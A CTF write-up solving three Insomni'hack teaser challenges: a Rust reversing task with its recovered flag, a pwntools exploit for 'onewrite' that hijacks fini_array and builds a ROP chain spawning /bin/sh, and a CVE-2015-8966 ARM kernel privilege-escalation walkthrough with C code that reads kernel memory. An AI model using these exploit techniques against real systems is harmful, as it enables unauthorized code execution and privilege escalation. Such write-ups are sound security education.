

## beginner reverse

It is a binary written in Rust. Initially I got stuck into the Rust stuff, which wasted me much time. The main function at `0x66A0` is long, but many of them are junk codes that do not help to solve the challenge. In fact, the core logic is this loop

```c
do
{
  if ( v15 == v22 )
    break;
  v25 = ((*((_DWORD *)v30 + v23) >> 2) ^ 0xA) == *(_DWORD *)&v15[4 * v23];
  // if we set a breakpoint here, v15 is the input but is unsigned extended to DWORD array
  ++v23;
  v24 += v25;
  v22 -= 4;
}
```

Here it compares the input with something, which is initialized here

```c
*v0 = xmmword_51000;
v0[1] = xmmword_51010;
v0[2] = xmmword_51020;
v0[3] = xmmword_51030;
v0[4] = xmmword_51040;
v0[5] = xmmword_51050;
v0[6] = xmmword_51060;
v0[7] = xmmword_51070;
*((_QWORD *)v0 + 16) = 0x1DE000001E2LL;
```

And it is obvious that the transformation is `(data[i] >> 2) ^ 0xA`, where `data` is an `uint32_t` array.

Thus, we can decrypt the flag using IDA Python

```python
Python>flag = ""
Python>for p in range(0x51000, 0x51080, 4) + range(0x6722, 0x672a, 4):
Python>  flag += chr((Dword(p) >> 2) ^0xA)
Python>
Python>flag
INS{y0ur_a_r3a1_h4rdc0r3_r3v3rs3r}
```

## onewrite

The binary can leak the stack address or PIE address of the program, then an arbitrary 8-byte write is performed, then the program exits. The program was statically linked, so there is no `libc`. Also since the program has not used `execve`, so this function is not provided. Our only way is to use `ret2syscall` by ROP. So we need to leak the 2 addresses without quiting first. The way to not quit after leaking is to rewrite return address in stack. For example, in function `main`,

`do_leak` is called.

```c
.text:00007FFFF7D52B04                 call    do_leak
.text:00007FFFF7D52B09                 nop
```

And the value `0x00007FFFF7D52B09` is stored as the return address. (value might change if ASLR is enabled)

If we rewrite the least significant byte `0x09` to `0x04`, we can execute `do_leak` again after `retn`. In this way we can leak both `stack` and `pie`, and still return to the function `do_leak`.

Then here is the difficult part. Since we can only control `0xf` bytes in stack using `read` in `read_int_3`, we cannot easily construct a ROP chain that allows `ret2syscall`. Initially I decided to rewrite the return address to the start of `do_leak` instead of `call stack` in `main` function, in this way we can "shift" the stack down by 8 bytes each time. In the meanwhile, we can gradually construct a ROP chain using `read` in `read_int_3`, with 8 bytes each time.  But this failed to work because `puts` function will overwrite the data that I have putted using `read_int_3` in the last `do_write`.

Then, I found a permanent way to always restart the program: hook the `_fini_array` function table, the functions inside which will be called when `exit` function is called, and the `exit` function will be called after `main` function returns. Thus, If we can change the one of the functions into `_start`, can we alway restart the program after it exits? Unfortunately no. It seems that when the `__libc_start_main` is called second time, a segmentation fault will be created in subroutine `dl_relocate_static_pie`.

Well, if we cannot return to `_start` to restart everything, why not hook `_fini_array` into function like `do_overwrite`? Actually this turns out to be the correct(but not necessarily intended?) method. However, the `exit` function will not be called after the subroutine function returns, so we cannot restart again directly. Luckily, there are 2 entries in `_fini_array`, which will be called in the reverse order. If we can change both of the 2 entries to `do_overwrite`, we can use the first one to rewrite return address to `__libc_csu_fini`(The function that calls the functions in the `_fini_array`) and use the second one to construct ROP, so after then we can return to `__libc_csu_fini` again and do the same thing next time.

I chose to construct ROP below the current `rsp` because there are many gadgets like `add rsp,xxx; ret`. Finally, I used an `add rsp, 0xd0; pop xxx; ret` to pivot the `rsp` onto ROP.

exploit

```python
from pwn import *

g_local=True
context.log_level='debug'
p = ELF("./onewrite")
if g_local:
	sh = process('./onewrite')#env={'LD_PRELOAD':'./libc.so.6'}
	gdb.attach(sh)
else:
	sh = remote("onewrite.teaser.insomnihack.ch", 1337)

def leak(cmd):
	sh.recvuntil(" > ")
	sh.send(cmd)
	sh.recvuntil("0x")
	ret = int(sh.recvuntil("\n"), 16)
	return ret

def fill_stack(cmd):
	sh.recvuntil(" > ")
	sh.send(cmd)
	sh.recvuntil("Nope\n")

def write(addr, data):
	sh.recvuntil("address : ")
	sh.send(str(addr))
	sh.recvuntil("data : ")
	sh.send(data)

stack_addr = leak("1\x00")
write(stack_addr + 0x18, p8(0x04)) # b09->b04
prog_addr = leak("2\x00") - p.symbols["do_leak"]
write(stack_addr + 0x18, p8(0x04)) # b09->b04
print hex(stack_addr), hex(prog_addr)

fini_arr = prog_addr + p.symbols["__do_global_dtors_aux_fini_array_entry"]
do_overwrite = p64(prog_addr + p.symbols["do_overwrite"])
csu_fini = p64(prog_addr + p.symbols["__libc_csu_fini"])
fill_stack("nop")

init_ret = stack_addr - 72

write(fini_arr + 8, do_overwrite) #write 2nd entry of fini_arr
write(fini_arr, do_overwrite) #write 1st entry of fini_arr
write(init_ret, csu_fini) #write return address to csu_fini

init_ret += 8

def write_qword(addr, val):
	global init_ret
	write(init_ret, csu_fini)
	init_ret += 8
	write(addr, p64(val))

pop_rdi = p64(prog_addr + 0x84fa)
pop_rsi = p64(prog_addr + 0xd9f2)
pop_rdx = p64(prog_addr + 0x484c5)
pop_rax = p64(prog_addr + 0x460ac)
syscall = p64(prog_addr + 0x4610e)
bin_sh_buf = prog_addr + 0x2b4500

rop = pop_rdi
rop += p64(bin_sh_buf)
rop += pop_rsi
rop += p64(0)
rop += pop_rdx
rop += p64(0)
rop += pop_rax
rop += p64(59)
rop += syscall

write_qword(bin_sh_buf, u64("/bin/sh\x00"))

for i in xrange(0, len(rop), 8):
	write_qword(init_ret + 0x108, u64(rop[i:i+8]))
raw_input()
write(stack_addr - 16, p64(prog_addr + 0x106f3)) # add rsp,0xd8 ; ret

sh.interactive()

# init_ret = stack_addr + 0x18
# for i in xrange(0, 0x100, 8):
# 	fill_stack('A' * 15)
# 	write(init_ret + i, p64(prog_addr + p.symbols["do_leak"]))
```

## 1118daysober

Searching for `CVE-2015-8966`, we can find the patch for this vulnerability [here](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=76cc404bfdc0d419c720de4daaf2584542734f42). So this is a 32-bit ARM Linux kernel privilege escalation challenge. A `qemu` environment is given. If you want to learn more about kernel exploitation environment configuration, you can read it [here](https://mem2019.github.io/jekyll/update/2019/01/11/Linux-Kernel-Pwn-Basics.html); the only difference is that this article is about `x86-64` Linux kernel exploitation, so we use `gdb-multiarch` and `arm-linux-gnueabi-gcc` instead. After reading and comparing the codes before patch and codes after patch, we can find the only difference: for case `F_OFD_GETLK`,`F_OFD_SETLK` and `F_OFD_SETLKW`, the `fs` is not set back after calling `set_fs(KERNEL_DS)`. So what does this function do? What I've found is this

> The original role of `set_fs()` was to set the `x86` processor's `FS` segment register which, in the early days, was used to control the range of virtual addresses that could be accessed by unprivileged code. The kernel has, of course, long since stopped using `x86` segments this way. In current kernels, `set_fs()` works by setting a global variable called `addr_limit`, but the intended functionality is the same: unprivileged code is only allowed to dereference addresses that are below `addr_limit`. The kernel's `access_ok()` function, used to validate user-space accesses throughout the kernel, is a simple check against `addr_limit`, with the rest of the protection being handled by the processor's memory-management unit. 
>
> [https://lwn.net/Articles/722267/](https://lwn.net/Articles/722267/)

What it means is that if `set_fs(KERNEL_DS)` is called and not set back, we can use `read` and `write` to access kernel memory.

Then I tried to use `fcntl` to trigger the vulnerability, but it fails and the breakpoint on `sys_oabi_fcntl64` does not work. Then I found `fcntl` and `fcntl64` are 2 different `syscall`.



But after checking the binary, the `syscall number` is indeed `0xdd`, which got me confused.

Finally, I found the way to trigger the vulnerability [here](https://bbs.pediy.com/thread-214585.htm)\(content in Chinese\), which uses `swi` to call `sys_oabi_fcntl64` instead of `svc 0`. After then, we can use `read` and `write` to access the kernel memory. But note, we cannot use direct access since that is handled by `MMU`. Then we can use unnamed pipe or a regular file. But note:

1. after calling `set_fs(KERNEL_DS)`, `read(fd_file_or_pipe, user_addr, size)` will cause kernel panic.
2. after calling `set_fs(KERNEL_DS)`, `write(fd_file_or_pipe, kernel_unmapped_addr, size)` will also cause kernel panic.

These are 2 problems that got me stuck for many hours. For the first one, we can solve it by calling `fork` and call `set_fs(KERNEL_DS)` for child process only, then `write` in the child process to get kernel data, and call `read` in parent process to receive the kernel data. For the second one, we can use `write(1, kernel_addr, 8)` to try to output the kernel data to `stdout`, which will not cause segmentation fault. Only if it returns `8`, that means that page is mapped so we can write it to pipe without kernel panic. Here is my implementation of `memcpy_kernel_page`, which copy a page from `src`(kernel address) to global variable `page`.

```c
void error_exit(const char* msg)
{
	write(2, msg, strlen(msg));
	exit(-1);
}
ssize_t memcpy_kernel_page(char* src)
{
	ssize_t ret;
	memset(page, 0, PAGE_SIZE);
	int fd[2];
	ret = pipe(fd);
	if (ret < 0) error_exit("pipe failed");
	pid_t proc = fork();//handle problem 1
	if (proc < 0) error_exit("fork failed");
	if (proc == 0)
	{//child
		close(fd[0]);
		set_fs();//trigger vulnerability
		if (write(1, src, 8) != 8)
			error_exit("write kmem failed"); //handle problem 2
		if (write(fd[1], src, PAGE_SIZE) != PAGE_SIZE)
			error_exit("write kmem failed");
		close(fd[1]);
		exit(0);
	}
	else
	{//parent
		int status;
		close(fd[1]);
		wait(&status);
		if (WIFEXITED(status) && WEXITSTATUS(status) == 0)
			ret = PAGE_SIZE;
		else
			ret = -1;
		if (read(fd[0], page, PAGE_SIZE) <= 0)
			error_exit("read kmem failed");
		close(fd[0]);
		if (ret > 0)
			printf("read kernel memory successfully, first QWORD %p, last QWORD %p\n",
				*(uintptr_t*)page, *(uintptr_t*)(page + PAGE_SIZE - sizeof(uintptr_t)));

		return ret;
	}
}
```

The way to escalate privilege is to write `cred`. Firstly we can find the `cred` by brute force `comm`. The approach is same as the technique used in [stringIPC](https://poppopret.org/2015/11/16/csaw-ctf-2015-kernel-exploitation-challenge/). However, here is where I failed to solve the challenge in CTF: the maximum string length for `comm` is `15` instead of `16`, with a `\x00` added at `index 15`, but I used string with length of `16`, which will cause the last byte to be truncated thus unmatched when using `memmem(page, PAGE_SIZE, COMM, 16)` to scan the memory!!! :\(

Here is the final [exploit](exp.c).
